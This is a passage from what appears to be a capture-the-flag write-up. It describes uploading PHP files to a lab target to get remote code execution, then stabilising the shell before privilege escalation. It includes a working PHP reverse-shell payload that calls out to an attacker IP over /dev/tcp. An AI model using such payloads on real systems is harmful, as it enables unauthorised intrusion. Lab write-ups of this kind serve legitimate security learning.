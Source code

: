 Let's save that file as `id.php` and send the request pointing that resource:

![Pasted image 20250317151210.png](../../IMAGES/Pasted%20image%2020250317151210.png)

There we go, we got RCE, let's send a shell:

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.6.34.159/4444 0>&1"'); ?>
```

Let's save it as `shell.php` and do the same, we also need to set up a listener.

![Pasted image 20250317151521.png](../../IMAGES/Pasted%20image%2020250317151521.png)

There we go, we got our shell, let's start privesc.



# PRIVILEGE ESCALATION
---

Let's start by stabilizing our shell:


1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![Pasted image 20250317152103.png](../../IMAGES/Pasted%20image%2020250317152103.png)

We got a stable shell now, let's look around, we got this:

![Pasted image 20250317152134.png](../../IMAGES/Pasted%20image%2020250317152134.png)
